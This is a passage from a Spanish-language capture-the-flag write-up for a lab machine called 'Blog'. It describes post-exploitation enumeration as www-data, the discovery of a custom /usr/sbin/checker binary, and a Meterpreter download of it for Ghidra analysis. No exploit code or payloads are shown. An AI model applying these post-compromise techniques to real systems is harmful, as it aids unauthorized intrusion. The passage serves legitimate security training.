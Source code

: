 Hemos logrado el acceso inicial a la máquina como www-data explotando la vulnerabilidad de WordPress. El archivo user.txt es falso, lo que nos obliga a continuar la enumeración interna de la máquina.

---

# Paso 11: Descubrimiento y Descarga del Binario `checker`

Continuamos la enumeración del sistema interno buscando archivos inusuales que puedan conducir a la escalada de privilegios o a la *flag*.

## 11.1 Descubrimiento del Binario

Durante la enumeración del sistema, se descubre un binario no estándar ubicado en `/usr/sbin/checker`. Intentamos ejecutarlo:

<img width="359" height="623" alt="descubrimos el binario " src="https://github.com/user-attachments/assets/73ec5ae6-c76a-474c-a4bd-15daf83762dc" />

```bash
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
Not an Admin
````
Resultado: La ejecución falla y devuelve la cadena "Not an Admin", lo que sugiere que el binario realiza algún tipo de verificación de privilegios o pertenencia a un grupo. Es un objetivo obvio para analizar.

11.2 Descarga del Binario para Análisis Local

Dado que la máquina está comprometida, podemos utilizar las capacidades de Metasploit para descargar el binario a nuestra máquina local de Kali Linux para un análisis más profundo (como strings o reverse engineering).

<img width="1534" height="385" alt="me descargo el binario" src="https://github.com/user-attachments/assets/a8827c37-602a-44e3-8294-9577cd94cb20" />

Comando utilizado (Desde la sesión Meterpreter):

````
bash
meterpreter > download /usr/sbin/checker /home/quiqu3h4ck/Blog/checker
````
Resultado: El archivo se descarga exitosamente a la máquina del atacante.

Conclusión del paso:

Hemos encontrado un binario personalizado que puede ser la clave para la escalada de privilegios. El siguiente paso será analizar este binario para entender su funcionamiento y la razón por la que devuelve "Not an Admin".

---

# Paso 12: Análisis del Binario `checker` con Ghidra

Tras descargar el binario sospechoso `/usr/sbin/checker` a nuestra máquina local, lo abrimos con una herramienta de ingeniería inversa (como Ghidra) para descompilarlo y entender su lógica interna.
